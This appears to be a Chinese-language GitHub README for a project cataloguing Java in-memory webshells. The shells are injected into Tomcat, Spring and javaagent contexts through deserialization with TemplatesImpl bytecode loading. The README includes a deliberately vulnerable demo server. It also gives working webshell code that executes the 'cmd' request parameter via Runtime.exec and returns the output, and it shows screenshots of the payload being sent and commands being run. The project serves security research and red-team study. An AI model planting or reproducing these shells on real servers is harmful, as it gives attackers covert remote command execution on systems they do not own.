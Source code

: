 ## JavaMemShell
记录总结Java内存马的类型和相关代码示例

## 项目说明

**JavaMemShell**

利用Java反序列化时TemplatesImpl类加载字节码实现的内存马示例

**Server-Dmeo**

Spring 5.2.3 和Tomcat8服务端的Demo，接受参数进行反序列化，

## Java内存马类型

**tomcat** 

1. Filter型
2. Servlet型
3. Listener型
4. TomcatValue型

**spring**

1. controller型
2. Interceptor型

**javaagent**

1. 文件落地，持久化

## 核心代码

每种类型shell动态注册的执行逻辑在静态代码块中，由于反序列化需要，实现类需要继承`AbstractTranslet`

```java
static {
        try{
            xxx
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

获取request和response，执行命令并进行回显的逻辑在 `doFilter`，`requestDestroyed` ，`service`等方法中，如有需要自行替换，示例：

```java
public void service(ServletRequest servletRequest, ServletResponse servletResponse) 
                        throws ServletException, IOException {
        HttpServletRequest request = (HttpServletRequest)servletRequest;
        HttpServletResponse response =  (HttpServletResponse)servletResponse;

        String method = request.getMethod();
        if ("GET".equals(method)){
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");;
                String output = s.hasNext() ? s.next() : "";
                PrintWriter writer = response.getWriter();
                writer.write(output);
                writer.flush();
                writer.close();
            }
        }
    }
```

## 测试

以springInterceptor内存代码为例，将生成序列化的base64代码发送到服务端

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653798985180-c6672740-00d3-4389-85d9-0e4f73cacb74.png)

执行命令：

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653799203090-f9ad191f-288d-4ecb-8a6d-6fdd0591405e.png)

